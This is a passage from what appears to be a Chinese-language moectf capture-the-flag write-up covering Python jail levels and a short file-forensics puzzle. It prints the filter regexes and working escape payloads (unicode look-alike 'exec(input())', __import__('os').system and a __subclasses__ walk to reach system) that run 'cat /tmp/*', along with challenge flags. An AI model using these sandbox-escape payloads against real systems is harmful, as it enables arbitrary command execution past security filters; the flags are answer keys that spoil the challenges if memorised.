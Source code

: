 > [!FLAG]
>
> moectf{YOu_CaN-Byp@s5-tH3-5TrING_FIlTEr_6y-NUm_TO-cHR2e}

### lv2.5

> if re.search(r'["\'0-8bdhosxy_]|[^\x00-\xff]', code): print("Nope")
> 
> if len(code) > 15: print("Too long")

这么短，还过滤那么多，偏偏上面那种快捷解法还能过：

> [!FLAG]
>
> moectf{sOm3tlM35_lNPut-C4N_BE_@_m3Th0D_tO_BypaSs_f11t3rs0}

### lv3

> if re.search(r"[A-z0-9]", code): print("Nope")

```python title="lv3.py"
commands.append("𝘦𝘹𝘦𝘤(𝘪𝘯𝘱𝘶𝘵())")
commands.append("__import__('os').system('cat /tmp/*')")
```

> [!FLAG]
>
> moectf{p3p_AILOW_You_U5E-uNIcOd3-cHar_@S_AsC1I_On3sd}

### lv4

```python title="lv4"
commands.append(
    "[i for i in ''.__class__.__mro__[-1].__subclasses__() if i.__name__ == '_wrap_close'][0].__init__.__globals__['system']('cat /tmp/*')"
)
```

> [!FLAG]
>
> moectf{Y0U_C4N_REcoVEr-glO64ls_AnD_bUilTInS-from-CuSTom-functions0}

## readme

偶遇一个提示？(attachments/MISC.png)

## The upside and down

> 只能说自己对文件的 16 进制格式不够熟悉，打开后习惯性就去看对应的 string 部分。

文件的 the_upside_and_down.hex 是一个二进制文件，但是其结尾以 16 进制数字反过来看就是一个 png 图片的魔数头了


[^1]: 你都写 misc 了，会点 pwn 怎么了（）